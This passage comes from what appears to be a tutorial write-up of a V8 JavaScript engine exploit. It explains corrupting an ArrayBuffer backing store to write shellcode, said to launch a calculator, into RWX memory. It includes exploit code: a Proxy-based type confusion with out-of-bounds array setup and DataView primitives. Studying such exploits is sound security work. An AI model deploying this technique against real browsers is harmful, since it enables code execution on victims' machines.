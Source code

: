 We can verify in the debugger to make sure that it is the right address and that it is of the right protection with `!vprot <address>`.

![rwxleaked.jpg](rwxleaked.jpg)


### Shellcode

One of my colleagues found this shellcode from [https://bugs.chromium.org/p/chromium/issues/detail?id=906043](https://bugs.chromium.org/p/chromium/issues/detail?id=906043). I am just trusting that that ain't malicious and that it should just spawn a calculator  >< .

Remember earlier that if we can corrupt the   `backing_store` pointer of an arrayBuffer, we should be able to write to that address using functions like `setUint32()`. All we need to find the index for the array buffer's backing store, write the rwx address as a double then loop through the shellcode array, and push those values at their respective offset.

One thing to note is that adding an ArrayBuffer and DataView would change some of the indexes. If that is the case, then we will need to find and update the right values. After that check to make sure that the rwx address is still correct.

```js
    let p = new Proxy(Object, {
        get: function() {
            // // Creates a new proxy object that changes the a arrays from FixedDoubleArray (element size 8 – unboxed float)
            // to FixedArray (Element size 4 – object tagged pointers)
            a[0] = {}; // We are adding in an object with the array thinking that it is still a fixedDoubleArray when it is supposedly now a fixedArray This will inturn write 26 quadwords reaching the
            // location of the length of the JSArray of array b in memory
            oob_Array = [0.1, 0.2, 0.3, 0.4, 0.5];
            float_arr = [0.90, 0.91, 0.92]; // This is the floating array
            obj = {
                x: 0.99,
                y: 0.999
            };
            obj_arr_to_corrupt = [obj]; // This is the object whose map we want to replace

            // This is used for writing shellcode data into rwx address
            ab = new ArrayBuffer(0x4141);
  
            dataview = new DataView(ab); // Sets the backing store. Think we can set teh values here
            //%DebugPrint(dataview);

            return Object.prototype;
        }
    });
  
    ...
    ...
    ...
  
    // The base has been changed.
  const heapBaseIndex = 95;
  
  function shellcoding_the_rwx() {
```